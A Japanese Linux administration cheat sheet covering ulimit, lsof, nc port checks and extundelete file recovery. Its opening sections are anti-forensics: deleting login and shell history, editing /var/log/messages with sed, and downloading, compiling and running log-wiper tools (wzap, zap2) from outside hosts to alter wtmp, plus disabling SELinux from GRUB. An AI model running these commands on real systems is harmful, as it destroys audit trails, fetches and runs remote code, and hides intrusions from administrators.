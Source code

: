 ## 履歴削除

```
sudo rm /var/log/wtmp
sudo touch /var/log/wtmp
sudo rm /root/.bash_history
sudo rm /root/.viminfo
rm ~/.bash_history
rm ~/.viminfo
unset HISTFILE
```

### ログ

 ファイル名 | ログの用途                     | 主な格納先 | 格納タイプ
------------|--------------------------------|------------|------------
 utmp       | 現在のユーザー情報を記録       | /var/run   | バイナリ
 wtmp       | ログインの履歴を記録           | /var/log   | バイナリ
 lastlog    | ユーザーの最終ログイン時を記録 | /var/log   | バイナリ
 cron       | cronの実行結果を保存           | /var/log   | テキスト
 maillog    | メール関連                     | /var/log   | テキスト
 messages   | システムメッセージ、各種ソフト | /var/log   | テキスト
 secure     | セキュリティ関連               | /var/log   | テキスト
 xferlog    | ftp関連                        | /var/log   | テキスト

#### 改ざん

```
# テキスト系ファイルの改ざん
sed -e '/hogehoge/d' /var/log/messages > /tmp/messages

# zap2 で wtmp を改ざん
cd /tmp/
curl -LO http://www.kozupon.pgw.jp/download/wzap.c
gcc -o wzap wzap.c
./wzap
who ./wtmp.out
mv -f wtmp.out wtmp
chown root.utmp wtmp

# zap
curl -LO www.ussrback.com/UNIX/penetration/log-wipers/zap2.c
gcc -o zap zap2.c
./zap
```


## GRUB からselinux をOFFに

```
selinux=0 single
```
## システムリソースの上限を確認 (ulimit -a)

```
ulimit -a
# max memory size    = 物理メモリの使用サイズ上限
# open files         = ファイルディスクリプタ数の上限
# cpu time           = CPU時間の上限
# max user processes = プロセス数の上限
```

## ポートを使用しているプロセスを調査 (lsof)

```
sudo lsof -i:3306
```

## 疎通確認

```
## TCP 80
nc -z -w 5 -v www.example.com 80
## TCP 80-81
nc -z -w 5 -v www.example.com 80-81
## UDP 68
nc -u -z -w 5 -v www.example.com 68
```

## ファイルの復旧(ext3,4限定)

```
# 実行するとRECOVERED_FILES ディレクトリに復元ファイルができる
extundelete --after [unitxtime] --restore-all /dev/sda1
sudo extundelete /dev/sdc2 --after `date --date='2012-01-01 00:00' '+%s'`
```


